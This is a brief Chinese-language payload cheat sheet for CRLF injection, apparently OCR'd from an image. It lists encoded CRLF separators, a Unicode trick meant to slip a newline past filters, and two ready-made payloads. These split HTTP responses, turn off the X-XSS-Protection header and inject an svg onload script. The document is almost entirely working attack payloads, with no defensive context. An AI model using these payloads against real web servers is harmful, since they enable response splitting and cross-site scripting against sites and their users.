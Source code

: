 # clrf分隔符
%E5%98%8A%E5%98%8D ##比如说用户提交的是：%E5%98%8A，这个不包含换行符所以不会被拦截，服务器接收到后将其转成原始的unicode码：U+560A，最后取了0A，这时候就变成换行符了。
%0A%0D

# clrf成熟的payload
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
